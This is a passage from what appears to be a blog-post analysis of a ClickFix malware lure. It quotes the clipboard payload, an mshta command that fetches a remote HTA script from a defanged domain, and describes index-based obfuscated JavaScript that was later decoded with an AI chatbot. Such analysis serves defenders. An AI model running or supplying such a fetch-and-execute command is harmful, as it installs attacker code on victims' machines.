 Payload copied to is 
``mshta hXXps://gb[.]kaq51[.]ru/m54tdry4``

Interesting it's using mshta. Have not seen this before in Clickfix attack. Mshta is used to execute HTML HTA script code. Which allows for the execution of VBscript and JScript code on the host.

### Ether Hiding?

When inspecting the sources in dev tools, nothing really sticks out, at all. Usually it'd pop out at me. But nope.

![alt text](/images/imageswebsite_sources.PNG)

However, we can see this source. Which is interesting, not sure why it displays as (no domain).

When I inspect this source we have some obfuscated .js

What you can see below is index-based string obfuscation. 

![alt text](/images/js_unob.PNG)

I'm not even going to try to decode that myself. Fudge that.

There are tonnes of js obfuscaters online for free. Main reason these exist are, well one for malware and two so developers aren't getting there code re-used/re-purposed all the time.

Anyhow, I tried whacking it into a few free de-obfuscators with no luck.....

So, lord GPT got it done easy peasy. 
